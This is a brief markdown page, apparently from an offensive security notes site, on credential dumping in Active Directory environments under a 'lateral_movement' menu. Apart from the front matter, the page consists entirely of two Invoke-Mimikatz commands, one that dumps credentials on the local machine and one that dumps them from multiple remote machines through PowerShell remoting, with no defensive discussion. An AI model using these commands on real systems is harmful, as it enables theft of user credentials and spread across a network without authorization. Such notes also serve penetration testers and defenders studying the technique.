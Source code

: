 ```yaml
---
title: "Credential Dumping"
description: "Credential dumping with Mimikatz."
lead: "Credential dumping with Mimikatz."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "lateral_movement"
weight: 20
toc: true
---
```


## Invoke-Mimikatz

```powershell
# Dump on local machine
Invoke-Mimikatz -DumpCreds

# Dump credentials on multiple remote machiens through PSRemoting cmdlet Invoke-Command
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1", "sys2")
```
